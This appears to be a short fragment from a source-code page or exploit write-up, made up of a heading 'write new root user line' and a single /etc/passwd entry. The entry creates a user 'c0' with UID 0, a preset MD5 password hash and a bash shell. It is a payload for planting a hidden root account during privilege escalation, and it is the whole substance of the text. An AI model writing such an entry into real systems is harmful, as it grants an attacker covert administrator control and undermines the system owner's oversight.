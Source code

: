 ## write new root user line
```
c0:$1$coyote0x$S9Aruc4H1kvDizg..ij81.:0:0:root:/root:/bin/bash
```

